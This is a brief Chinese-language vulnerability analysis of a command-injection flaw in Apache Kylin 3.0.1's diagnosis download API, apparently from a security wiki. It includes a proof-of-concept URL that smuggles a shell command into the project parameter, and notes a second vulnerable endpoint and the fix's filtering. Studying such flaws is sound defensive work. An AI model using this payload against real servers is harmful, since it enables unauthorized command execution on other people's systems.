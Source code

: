 这样我们就可以通过控制` {project}` 请求就可以造成命令注入

```sh
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
```

拼接后则出现

```sh
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
```

这里通过报错语句可以回显命令验证漏洞存在

```java
throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
```

![img](/assets/PeiQi-Wiki/img/kylin-21.png)

在修复中，过滤了`||`,`&&`等符号，造成无法命令注入

![img](/assets/PeiQi-Wiki/img/kylin-22.png)

漏洞通报中共两个利用点

```sh
/kylin/api/diag/project/{project}/download  
/kylin/api/diag/job/{jobId}/download
```

查看函数发现利用方式相同，直接利用`job`会失败，因为 `{project}`默认有一个`learn_kylin`，而`job`没有

![img](/assets/PeiQi-Wiki/img/kylin-23.png)
